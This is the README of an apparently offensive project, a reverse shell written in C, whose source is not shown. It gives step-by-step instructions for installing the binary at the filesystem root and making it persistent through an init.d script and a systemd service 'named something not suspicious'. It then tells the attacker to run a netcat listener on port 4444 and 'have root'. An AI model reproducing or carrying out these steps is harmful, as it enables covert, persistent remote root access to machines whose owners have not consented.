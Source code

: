 # reverse-shell
## DO NOT RUN THIS ON YOUR OWN COMPUTER UNLESS YOU WANT TO BE PWNED
A reverse shell written in c

## Installation and activation
* First, download this in the / directory, compile a binary, then mv a.out /
* Second, create a .sh file in /etc/init.d/ and name it something not suspicious. Use foo.sh as example
* Then, in /etc/systemd/system create a .service file (example included). Use foo.service as example
* $systemctl enable foo.service

## On the attacking box
* $nc -nvlp 4444
* Wait for connection to pop
* Have root

